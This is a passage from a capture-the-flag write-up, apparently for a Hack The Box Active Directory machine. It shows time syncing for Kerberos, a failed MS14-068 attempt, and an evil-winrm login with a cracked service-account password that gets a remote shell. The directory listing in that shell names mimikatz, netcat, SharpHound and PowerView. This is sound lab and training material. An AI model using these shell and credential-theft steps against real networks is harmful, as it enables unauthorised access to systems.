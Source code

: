     :::text
    cat /etc/resolv.conf
    # Generated by NetworkManager
    search home
    nameserver 192.168.1.25
    domain htb.local
    search htb.local

    apt-get install rdate

    rdate -n htb.local
    Thu Oct 24 16:22:14 CEST 2019

I know have the same time as the DC (this is super important for tickets
generation).

    :::text
    date && rdate -n htb.local
    Thu 24 Oct 2019 04:24:55 PM CEST
    Thu Oct 24 16:24:55 CEST 2019

The exploitation of MS14-068 does not work.

## Evil-winrm

As we so in the openport, the
[default port for winrm 5985](https://docs.microsoft.com/en-us/windows/win32/winrm/installation-and-configuration-for-windows-remote-management)
is open. We use [evil-winrm](https://github.com/Hackplayers/evil-winrm) in order
to connect to the system and get user's flag:

    :::text
    evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice

    Evil-WinRM shell v1.8

    Info: Establishing connection to remote endpoint

    *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> dir


        Directory: C:\Users\svc-alfresco\Documents


    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    -a----       10/24/2019   6:57 AM          12510 20191024065705_BloodHound.zip
    -a----       10/24/2019   8:23 AM           3996 Add-ACE.ps1
    -a----       10/24/2019   8:23 AM           2584 Add-ToGroup.ps1
    -a----       10/24/2019   6:28 AM          64384 Invoke-ACLPwn.ps1
    -a----       10/24/2019   8:02 AM        2661697 Invoke-Mimikatz.ps1
    -a----       10/24/2019   6:33 AM        1006744 mimikatz.exe
    -a----       10/24/2019   6:25 AM         212992 mp1.exe
    -a----       10/24/2019   9:17 AM          43696 nc64.exe
    -a----       10/24/2019   6:47 AM          73802 pd.exe
    -a----       10/24/2019   7:24 AM           6017 powerPriv.ps1
    -a----       10/24/2019   9:26 AM         363295 powerview.ps1
    -a----       10/24/2019   7:12 AM           8978 Rk9SRVNU.bin
    -a----       10/24/2019   6:27 AM         779264 SharpHound.exe
    -a----       10/24/2019   6:44 AM         919546 SharpHound.ps1
    -a----       10/24/2019   8:36 AM        2222592 SharpSploit.dll
    -a----       10/24/2019   7:26 AM          73802 shell.exe
